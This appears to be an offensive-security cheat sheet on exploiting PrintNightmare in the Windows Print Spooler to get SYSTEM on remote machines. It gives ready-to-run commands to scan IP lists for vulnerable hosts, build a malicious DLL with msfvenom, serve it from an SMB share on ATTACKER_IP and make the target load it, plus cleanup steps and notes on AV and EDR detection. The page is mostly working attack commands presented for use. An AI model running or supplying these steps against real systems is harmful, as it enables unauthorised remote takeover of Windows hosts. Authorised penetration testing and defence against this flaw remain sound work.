

**PrintNightmare** — a series of LPE/RCE bugs in the Print Spooler service. With a valid domain user account, it can give `SYSTEM` on a remote machine by making the Spooler load an attacker-supplied driver DLL.

## Discovery

Check a single target:

```bash

printnightmare.py -check 'USER_NAME:USER_PASS@TARGET'

```

Check many hosts from a list and save the vulnerable ones:

```bash

CREDS="USER_NAME:USER_PASS"
for i in $(cat ./recon/ips_445.txt); do
    nc -z $i 445 -w 1 2>&1 >/dev/null || continue
    printnightmare.py -check $CREDS@$i | grep "appears to be vulnerable" > /dev/null && echo $i >> ./recon/printnightmare_vuln.txt
done

```

## Exploitation



1. Prepare a payload DLL that runs your command or adds a local admin (e.g. build one with `msfvenom`, or use a public PrintNightmare PoC DLL).

2. Host it on an anonymous SMB server:

```bash

smbserver.py -smb2support 'share' $(pwd)

```

3. Exploit the target:

```bash

printnightmare.py -dll '\\ATTACKER_IP\SHARE\payload.dll' 'USER_NAME:USER_PASS@TARGET'

```

4. Cleanup (admin required) - list drivers, find the one matching your DLL, remove it, then delete the DLL:

```bash

printnightmare.py -list 'USER_NAME:USER_PASS@TARGET'
printnightmare.py -delete -name 'DRIVER_NAME' 'USER_NAME:USER_PASS@TARGET'

```

```powershell

Remove-Item -Path "C:\Windows\system32\spool\DRIVERS\x64\3\payload.dll" -Force

```

## Caution

Common reasons it fails:
- The target does not allow connections to anonymous SMB shares.
- The payload DLL is caught by AV.
- The EDR detects the exploit (and may kill the Spooler).

## References

- PrintNightmare (ly4k) - https://github.com/ly4k/PrintNightmare
- smbserver.py (Impacket) - https://github.com/fortra/impacket
